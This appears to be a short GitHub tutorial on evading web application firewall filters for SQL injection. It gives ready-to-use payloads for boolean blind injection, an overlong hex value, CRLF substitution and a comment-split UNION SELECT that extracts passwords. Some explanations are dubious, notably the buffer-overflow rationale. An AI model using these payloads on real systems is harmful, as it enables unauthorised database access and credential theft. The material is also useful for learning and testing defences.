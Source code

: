 # BYPASSING COMMON SQL FILTERS

SQL injection is a type of injection where users can append an SQL query via the input and manipulate and extract sensitive information from the database and hence sacrificing the integrity of the application.

In applications prone to SQL injections, they tend to create a Web Application Firewall (WAF), that sanitize or blacklist the common SQL keywords in the input. SQL injection WAF is generally a security layer which follows a bunch of rules to prevent SQL injection. Most of the common filters applied by WAF are bypassable.


Lets look at the following example where the client gets to alter the two fields “username” and “password”
`select * from table_name where username = '{$ _ GET [username]}';`




## Blind SQL Injection (UNION Blacklist)
It uses the method of requesting true or false responses from the database using “AND” and “OR” to bruteforce the data. This can be used when the database does not give data as output.

INPUT: ?username='admin' OR length(username)>0#
OUTPUT: select * from table_name where username='admin' OR length(username)>0;
INPUT: ?username='admin' OR (ascii(substr(username,i,j))>0)#
OUTPUT: select * from table_name where username='admin' OR (ascii(substr(username,i,j))>0);

Correspondence: substring(), mid(), substr() ascii(), hex(), bin(), benchmark(), sleep(), like, ord(), find_in_set(), locate(), strcmp()

## Buffer Overflow bypassing

While writing into the buffer with huge values, surpass the buffer's boundary overwriting the memory of an application because most of the WAFs are written and compiled in C.

INPUT: ?username='admin' AND (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAA.....A)#
OUTPUT: select * from table_name where username='admin' AND (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAA.....A);

## CRLF  
CRLF-> Carriage Return, Line Feed. These control characters can be used to  substitute for spaces and comments. 

INPUT: ?username=’%0a’ OR username='admin'#
OUTPUT: select * from table_name where username=’’ OR username='admin'; 

## HTTP Parameter Pollution (HPP)
The parameters in the HTTP request is manipulated maliciously with different unintended methods to achieve sensitive information

## Query concatenation
INPUT: ?username =1/**/union/*,*/select/*,*/password/*,*/from/*,*/table_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;
